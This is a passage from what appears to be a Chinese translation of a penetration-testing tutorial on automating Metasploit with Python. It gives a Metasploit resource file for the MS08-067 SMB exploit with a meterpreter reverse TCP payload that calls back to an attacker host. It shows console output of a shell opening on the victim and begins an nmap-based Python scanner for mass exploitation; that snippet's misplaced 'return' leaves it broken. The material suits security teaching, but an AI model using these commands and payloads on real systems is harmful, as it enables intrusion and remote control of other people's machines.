 为了利用 Metasploit 的攻击，我们选择我们的 Exploit(`exploit/windows/smb/ms08_067_netapi`)，然后设置目标为`192.168.1.37`。接下来我们指定攻击荷载为`windows/meterpreter/reverse_tcp`选择反向连接到我们的`192.168.77.77`的 7777 端口上，最后我们告诉 Metasploit 开始攻击系统。保存配置文件为`conficker.rc`，我们可以通过命令`msfconsole -r conficker.rc`来启动我们的攻击。这个命令会告诉 Metasploit 根据`conficker.rc`来启动攻击。如果成功，我们的攻击会返回一个命令行 Shell 来控制对方电脑。

```py
attacker$ msfconsole -r conficker.rc
[*] Exploit running as background job.
[*] Started reverse handler on 192.168.77.77:7777
[*] Automatically detecting the target...
[*] Fingerprint: Windows XP - Service Pack 2 - lang:English
[*] Selected Target: Windows XP SP2 English (AlwaysOn NX)
[*] Attempting to trigger the vulnerability...
[*] Sending stage (752128 bytes) to 192.168.1.37
[*] Meterpreter session 1 opened (192.168.77.77:7777 -&gt; 192.168.1.37:1087) at Fri Nov 11 15:35:05 -0700 2011
msf exploit(ms08_067_netapi) &gt; sessions -i 1
[*] Starting interaction with 1...
meterpreter &gt; execute -i -f cmd.exe
Process 2024 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
C:\WINDOWS\system32&gt; 
```

## 用 Python 和 Metasploit 交互

太棒了！我们建立了一个配置文件，渗透了一个主机并获得了一个 shell。重复这个过程对 254 个主机会花费大量的时间来修改配置文件，但是如果利用 Python，我们可以生成一个快速的扫描脚本，扫描 445 端口打开的主机，然后利用 Metasploit 资源文件攻击有漏洞的主机。

首先，让我们从先前的端口扫描的例子中利用`python-nmap`模块。这里，函数`findTgts()`以潜在目标主机作为输入，返回所有开了 TCP 445 端口的主机。TCP 445 端口是 SMB 协议的主要端口。只要主机的 TCP 445 端口是开放的，我们的脚本就能有效的攻击，这会消除主机对我们尝试连接的阻碍。函数通过迭代扫描所有的主机，如果函数发现主机开放了 445 端口，就将主机加入列表中。完成迭代后，函数会返回包含所有开放 445 端口主机的列表。

```py
import nmap

def findTgts(subNet):
    nmScan = nmap.PortScanner()
    nmScan.scan(subNet, '445')
    tgtHosts = []
    for host in nmScan.all_hosts():
        if nmScan[host].has_tcp(445):
            state = nmScan[host]['tcp'][445]['state']
            if state == 'open':
                print '[+] Found Target Host: ' + host
                tgtHosts.append(host)
return tgtHosts 
```

接下来，我们将对我们攻击的目标设置监听，监听器或者命令行与控制信道，一旦他们渗透成功我们就可以与远程目标主机进行交互。Metasploit 提供了先进的动态的攻击荷载 Meterpreter。Metasploit 的 Meterpreter 运行在远程主机上，返回给我们命令行用来控制主机，提供了大量的控制和分析目标主机的能力。Meterpreter 扩展了命令行的能力，包括数字取证，发送命令，远程路由，安装键盘记录器，下载密码或者 Hash 密码等等功能。
